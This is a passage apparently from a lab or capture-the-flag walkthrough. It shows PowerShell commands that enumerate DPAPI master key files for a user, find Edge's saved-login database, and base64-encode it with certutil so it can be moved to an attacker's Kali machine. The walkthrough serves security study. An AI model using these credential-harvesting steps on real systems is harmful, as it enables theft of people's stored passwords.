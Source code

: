 ```powershell
PS C:\Users\Bob.Wood> gci -force AppData\Roaming\Microsoft\Protect\

    Directory: C:\Users\Bob.Wood\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         8/22/2022   2:17 PM                S-1-5-21-1844305427-4058123335-2739572863-2761
-a-hs-          5/4/2022   4:49 PM             24 CREDHIST
-a-hs-         8/24/2022   1:41 PM             76 SYNCHIST
```

```powershell
PS C:\Users\Bob.Wood\AppData\Roaming\Microsoft\Protect\S-1-5-21-1844305427-4058123335-2739572863-2761> ls -force

    Directory: C:\Users\Bob.Wood\AppData\Roaming\Microsoft\Protect\S-1-5-21-1844305427-4058123335-2739572863-2761

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-         8/22/2022   2:17 PM            740 3ebf1d50-8f5c-4a75-9203-20347331bad8
-a-hs-          5/4/2022   4:49 PM            740 a8bd1009-f2ac-43ca-9266-8e029f503e11
-a-hs-          5/4/2022   4:49 PM            908 BK-WINDCORP
-a-hs-         8/22/2022   2:17 PM             24 Preferred
```

If `C:\users\bob.wood\AppData\Roaming\Microsoft\Credentials` is empty, that means there are no system level keys stored here. Another thing DPAPI is used for is storing browser saved creds.Edge directory:

```powershell
PS C:\users\bob.wood\AppData\local\Microsoft\Edge\User Data\Default> ls "Login Data"

    Directory: C:\users\bob.wood\AppData\local\Microsoft\Edge\User Data\Default

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/4/2022   7:46 PM          55296 Login Data
```

You need the above file from the Edge directory,  `Login Data`.

Copy it to your Kali machine using certutil -

```powershell
PS C:\users\bob.wood\AppData\local\Microsoft\Edge\User Data\Default> certutil -encode "Login Data" \programdata\logindata
Input Length = 55296
Output Length = 76088
CertUtil: -encode command completed successfully. 
PS C:\users\bob.wood\AppData\local\Microsoft\Edge\User Data\Default> type \programdata\logindata
-----BEGIN CERTIFICATE-----
U1FMaXRlIGZvcm1hdCAzAAgAAQEAQCAgAAAAAgAAABsAAAAAAAAAAAAAABAAAAAE
AAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC
AC5bMAUAAAABB/sAAAAAEAf7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
...[snip]...
```
